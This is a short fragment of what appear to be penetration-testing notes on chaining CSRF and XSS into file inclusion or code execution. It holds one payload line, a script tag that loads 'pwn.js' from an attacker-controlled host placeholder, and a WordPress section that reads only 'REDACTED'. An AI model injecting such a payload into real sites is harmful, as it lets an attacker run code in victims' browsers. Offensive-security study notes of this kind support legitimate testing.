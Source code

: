 # CSRF

### CSRF2LFI

We can leverage discovered XSS to run javascript code shown in the following example:

```js
<script src="http://$OUR_IP/pwn.js"></script>
```

Follow the logic seen [here](https://www.youtube.com/watch?v=aWXfEDIYZu8&t=1095)

### CSRF2RCE in WordPress

REDACTED
